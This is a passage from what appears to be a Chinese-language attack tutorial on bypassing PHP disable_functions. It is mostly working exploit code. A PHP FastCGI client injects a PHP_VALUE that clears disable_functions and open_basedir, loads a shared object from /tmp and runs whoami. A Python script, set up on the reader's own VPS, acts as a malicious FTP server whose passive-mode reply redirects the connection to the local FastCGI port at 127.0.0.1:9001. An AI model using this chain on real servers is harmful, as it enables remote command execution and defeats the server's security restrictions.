 ```php
$php_value = "unserialize_callback_func = system\nextension_dir = /tmp\nextension = hpdoger.so\ndisable_classes = \ndisable_functions = \nallow_url_include = On\nopen_basedir = /\nauto_prepend_file = ";
$params = array(
    'GATEWAY_INTERFACE' => 'FastCGI/1.0',
    'REQUEST_METHOD'    => 'POST',
    'SCRIPT_FILENAME'   => $filepath,
    'SCRIPT_NAME'       => $req,
    'QUERY_STRING'      => 'command=whoami',
    'REQUEST_URI'       => $uri,
    'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
    'PHP_VALUE'         => $php_value,
    'SERVER_SOFTWARE'   => '80sec/wofeiwo',
    'REMOTE_ADDR'       => '127.0.0.1',
    'REMOTE_PORT'       => '9001',
    'SERVER_ADDR'       => '127.0.0.1',
    'SERVER_PORT'       => '80',
    'SERVER_NAME'       => 'localhost',
    'SERVER_PROTOCOL'   => 'HTTP/1.1',
    'CONTENT_LENGTH'    => strlen($code)
);
// print_r($_REQUEST);
// print_r($params);
//echo "Call: $uri\n\n";
echo $client->request($params, $code)."\n";
?>
```

![image-20210502101153046](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8a97ee1cf11bf9c47d5642d9b2ec8833dbb8d43b.png)

然后执行以下脚本自己 vps 上搭建一个恶意的 ftp 服务器：

```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 23))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```

